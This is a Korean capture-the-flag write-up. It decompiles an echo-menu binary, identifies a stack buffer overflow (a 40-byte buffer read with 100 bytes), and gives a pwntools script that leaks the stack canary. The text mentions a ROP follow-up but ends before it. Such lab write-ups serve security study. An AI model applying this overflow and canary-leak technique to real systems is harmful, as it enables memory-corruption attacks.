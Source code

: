 ```c
unsigned int sub_8048A71()
{
  int v1; // [esp+1Ch] [ebp-3Ch]
  char v2; // [esp+24h] [ebp-34h]
  unsigned int v3; // [esp+4Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&v2, 0, 0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        sub_80488B1("\n===============================\n");
        sub_80488B1("1. Echo\n");
        sub_80488B1("2. Reverse Echo\n");
        sub_80488B1("3. Exit\n");
        sub_80488B1("===============================\n");
        v1 = sub_804895A();
        if ( v1 != 1 )
          break;
        sub_80488B1("Input Your Message : ");
        sub_8048907(&v2, 100);
        sub_80488B1(&v2);
      }
      if ( v1 != 2 )
        break;
      sub_80488B1("Input Your Message : ");
      sub_8048907(&v2, 100);
      sub_80489C8(&v2);
      sub_80488B1(&v2);
    }
    if ( v1 == 3 )
      break;
    sub_80488B1("\n[!] Wrong Input\n");
  }
  return __readgsdword(0x14u) ^ v3;
}
```
<strong>sub_8048A71 함수를 보면 v1, v2, v3 변수를 정의하는 것을 볼 수 있고, v3은 카나리입니다. 하지만 1번 메뉴와 2번 메뉴를 확인해보면 v2의 크기는 40인데 100만큼 입력 받기 때문에 BOF 취약점이 발생합니다. NX Bit가 걸려 있기 때문에 BOF 취약점을 이용해서 ROP를 해주면 될 거 같고, 카나리가 걸려 있기 때문에 카나리부터 릭을 해야합니다.</strong><br>

```python
from pwn import *
p = remote("127.0.0.1", 8181)

# Canary Leak
p.sendlineafter("> ","1")
p.sendafter(": ", "a" * 41)
canary = u32("\x00" + p.recv(1024)[41:44])

log.info("Canary : {}".format(hex(canary)))
```
<strong>Canary는 위와 같이 릭을 할 수 있습니다. v2의 값으로 `"a"`를 40개 주게 되면 v2 변수가 꽉차 v3 변수와 이어지게 됩니다. 하지만 v2를 꽉 채워주지 않으면 남은 메모리에 Null 값이 삽입되기 때문에 Canary를 릭할 수 없습니다. 하지만 40개를 다 채워줬는데 Canary가 출력 되지 않는데 이는 Canary에 시작도 Null로 시작하기 때문입니다. 그래서 `"a"`를 41개를 줘 Canary에 시작인 Null 값도 덮으면 Canary 전체를 릭할 수 있습니다.(Null 값이 존재하면 더 이상 읽지 않음)</strong><br>
